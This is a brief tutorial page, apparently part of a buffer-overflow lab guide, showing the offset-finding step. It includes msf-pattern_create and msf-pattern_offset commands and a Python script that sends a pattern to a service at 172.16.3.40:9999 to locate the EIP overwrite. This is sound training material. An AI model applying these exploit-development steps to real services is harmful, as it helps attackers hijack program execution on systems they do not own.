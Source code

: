 ## getoffset.py

Once the application is fuzzed at X, lets say 2700, bytes, create a unique string of X+200 (or 300) bytes, let’s say 3000 bytes, using `msf-pattern_create` like below:

`msf-pattern_create -l 3000`

Assign this unique string to the payload variable

```
import socket
import sys
from time import sleep

# cp 2-crash.py 3-pattern.py
# updatedb
# locate pattern_create.rb
# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 650
pattern = '<enter pattern here>'

# buffer = 'A' * 600
buffer = pattern

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(2)
  s.connect(('172.16.3.40',9999))
  s.recv(1024)

  print '[*] Sending buffer.'
  s.send(buffer + '\r\n')
  s.close()

except:
  print '[*] Could not connect to target, exiting.'
  sys.exit()

```

* * *
Make a note of the address that the EIP was overwriten with, use `msf-pattern_offset` to find the offset, like below:

`msf-pattern_offset -l 3000 -q <enter EIP address>`

This will provide you with the offset at which the EIP will be written at. If the offset is 2606, then that means from byte 2607 to byte 2610 will determine the EIP address, and the rest will go into ESP.



